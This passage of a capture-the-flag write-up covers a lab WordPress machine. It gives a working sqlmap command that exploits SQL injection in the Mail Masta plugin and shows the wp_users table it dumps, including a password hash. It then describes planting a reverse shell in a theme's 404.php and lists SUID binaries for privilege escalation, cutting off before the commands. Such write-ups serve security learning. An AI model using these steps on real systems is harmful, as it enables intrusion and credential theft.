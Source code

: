 ```sh
| wp_reflex_gallery_images              |
| wp_term_relationships                 |
| wp_term_taxonomy                      |
| wp_termmeta                           |
| wp_terms                              |
| wp_usermeta                           |
| wp_users                              |
+---------------------------------------+

$ sqlmap -u "http://box.ip/wordpress/wp-content/plugins/mail-masta/inc/lists/csvexport.php?list_id=0&pl=/var/www/html/wordpress/wp-load.php" -p list_id --dbms mysql -T wp_users --dump
Database: wordpress
Table: wp_users
[1 entry]
+----+--------------------------------+------------------------------------+---------------+------------+-------------+--------------+---------------+---------------------+---------------------+
| ID | user_url                       | user_pass                          | user_email    | user_login | user_status | display_name | user_nicename | user_registered     | user_activation_key |
+----+--------------------------------+------------------------------------+---------------+------------+-------------+--------------+---------------+---------------------+---------------------+
| 1  | http://192.168.8.110/wordpress | $P$BhwVLVLk5fGRPyoEfmBfVs82bY7fSq1 | none@none.com | elyana     | 0           | elyana       | elyana        | 2020-10-05 19:55:50 | <blank>             |
+----+--------------------------------+------------------------------------+---------------+------------+-------------+--------------+---------------+---------------------+---------------------+
```

With the dumped password hash, we can attempt to crack it (some rules required) to get credentials to log into WordPress.

### WordPress Administrator RCE

After logging into WordPress, we can edit themes so let's edit a PHP file of a theme (I'm doing theme twentynineteen since it's inactive, file `404.php` so it's `/wordpress/wp-admin/theme-editor.php?file=404.php&theme=twentynineteen`) to run a reverse shell.

![](revshell.png)

After editing the file, set up a listener and navigate to the file (in my case `/wp-content/themes/twentynineteen/404.php`) to get a reverse shell.

## Privilege Escalation

With a shell as `www-data`, the first thing I do is run [linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/blob/master/linPEAS/linpeas.sh) which returns a few interesting things:

- There's a cron job running `/var/backups/script.sh` as `root` every minute
- There are several unusual SUID binaries: `/bin/chmod`, `/usr/bin/socat`, `/bin/bash`

### SUID binaries

For each of the aforementioned SUID binaries, we can get a root shell by doing the following:
